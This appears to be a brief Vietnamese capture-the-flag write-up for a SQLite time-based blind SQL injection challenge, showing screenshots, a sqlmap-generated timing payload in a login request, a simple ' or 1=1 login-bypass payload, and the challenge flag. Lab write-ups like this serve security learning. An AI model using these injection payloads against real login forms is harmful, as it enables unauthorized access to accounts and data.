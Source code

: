 ![image-20200608011614283](images/image-20200608011614283.png)

Time-based Blind

Title: SQLite > 2.0

Do không có thời gian viết code bài này nên mình dùng luôn sqlmap :))

Payload: **user=admin' OR 9766=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- FdpX&pass=admin**

![image-20200608011853129](images/image-20200608011853129.png)

Cách 2: Không sử dụng sqlmap

Payload: **' or 1=1 limit 1—**



Flag: **ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}**


